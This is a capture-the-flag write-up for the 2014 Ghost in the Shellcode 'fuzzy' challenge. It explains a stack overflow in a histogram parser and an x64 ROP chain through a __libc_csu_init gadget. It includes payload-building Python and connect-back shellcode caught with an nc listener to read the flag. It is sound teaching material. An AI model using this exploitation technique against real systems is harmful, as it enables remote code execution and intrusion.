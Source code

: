 ```yaml
---
title: 'fuzzy'
authors:
  - Alex Reece <awreece>
layout: post
categories:
  - Pwn
ctf: Ghost in the Shellcode
year: 2014
---
```

tl;dr &mdash; `fuzzy` is a "super secure parsing engine", that includes a histogram function. The histogram ascii text uses a buffer on the stack, but will increment
buckets past the end of the buffer if non ascii text is provided, allowing us to
rop.

<!--more-->

Binary and exploit available [here][1].

## The program

`fuzzy` is a "super secure parsing engine", that includes a histogram function:

```
$ nc fuzzy.2014.ghostintheshellcode.com 4141
Welcome to the super secure parsing engine!
Please select a parser!

1) Sentence histogram
2) Sorted characters (ascending)
3) Sorted characters (decending)
4) Sorted ints (ascending)
5) Sorted ints (decending
6) global_find numbers in string
1
Enter a series of characters
hello
 :0 !:0 ":0 #:0 $:0
%:0 &:0 &#39;:0 (:0 ):0
... &lt;snip&gt; ...
a:0 b:0 c:0 d:0 e:1
f:0 g:0 h:1 i:0 j:0
k:0 l:2 m:0 n:0 o:1
p:0 q:0 r:0 s:0 t:0
u:0 v:0 w:0 x:0 y:0
z:0 {:0 |:0 }:0
```

As you can see, it computes a histogram of the input. This histogram
is constructed using a buffer that is on the stack, so if we send it
non-ascii text we can write to the stack. By modifying the saved `ebp`,
we can point the stack to a buffer we control.

Unfortunately, this is a bit challenging to figure out because all
the interesting functions are encrypted. Fortunately for us, the "encryption"
is just bitwise not. Using our favorite hex editor, we make a new binary with
the decrypted functions to reverse.

With control of the stack, we get control over rip and can ROP.
We will use the `callFunction` function, which decrypts a function
into an executable page and then runs it. Our goal will be to `read` encrypted shellcode
into a known location (there is a convenient buffer `dontcollide` in the data
section that is never used), then invoke `callFunction` to run our shellcode.
Unfortunately, since this is x64, we need to find a good gadget to be able to
control registers and call functions. Luckily, there is a good gadget in
`__libc_csu_init`:

```
loc_401790:                             ; CODE XREF: __libc_csu_init+64j
                mov     rdx, r13
                mov     rsi, r14
                mov     edi, r15d
                call    qword ptr [r12+rbx*8]
                add     rbx, 1
                cmp     rbx, rbp
                jnz     short loc_401790

loc_4017A6:                             ; CODE XREF: __libc_csu_init+4Aj
                mov     rbx, [rsp+8]
                mov     rbp, [rsp+10h]
                mov     r12, [rsp+18h]
                mov     r13, [rsp+20h]
                mov     r14, [rsp+28h]
                mov     r15, [rsp+30h]
                add     rsp, 38h
                retn
```

This gadget allows us to control the first three registers we need an call
anything we have function pointer to. The program uses a large function pointer table to enable
the encrypted functions to call library functions, so we have pointers to many
library functions. Unfortunately, we do *not* have a pointer to `readAll`, so we
cannot use it with our gadget. Furthermore, our gadget only controls 3 arguments,
so we cannot easily use `recv`. Lastly, we cannot use the encrypted `my_readAll`
function (that we have a pointer to) because it reads its arguments out of a
buffer and we don't have an easy way to call functions with a buffer we control
as an argument. Still, this gadget allows us to chain calls arbitrary function pointers
with 3 arguments:

```
# Assumes rip points to loc_4017A6.
def call(function_ptr, arg0, arg1, arg2):
  # Make sure rbx is 0 to make math easy, and rbp is 1 so we fall through to
  # loc_4017A6 for repeated calls.
  #      padding            rbx       rbp       r12                  r13=rdx      r14=rsi      r15=edi
  return pack(0xdeadbeef) + pack(0) + pack(1) + pack(function_ptr) + pack(arg2) + pack(arg1) + pack(arg0) + pack(__libc_csu_init_gadget)
```

Instead, we make a function pointer to `readAll` in the data section that we can use our
gadget.
We call `memset` 4 times, once for each distinct byte in
the the address of `readAll`, and make `dontcollide` a pointer to `readAll`.

```
# Set dontcollide to be a function pointer to readAll (0x4013cb).
payload += call(memset_fptr, dontcollide, 0, 8)
payload += call(memset_fptr, dontcollide, 0xcb, 1)
payload += call(memset_fptr, dontcollide + 1, 0x13, 1)
payload += call(memset_fptr, dontcollide + 2, 0x40, 1)
```

We then can use our gadget to call `readAll`,
reading the encrypted shellcode into `dontcollide`, and then again to call
`callFunction`, executing our shellcode.

```
# Read the shellcode into a buffer. The socket to read from is 4.
payload += call(dontcollide, 4, dontcollide, 0x400)

# Call our shellcode.
payload += call(callEncryptedFunction_fptr, dontcollide, 0, 0)
```

We grab some connect back shellcode
and get a shell:

```
~% python fuzzy.py                                           [console 1]
~% nc -l 16705                                               [console 2]
cat key.txt
key is: fuzzingIsFun2
```

 [1]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2014/01/fuzzy.tar.gz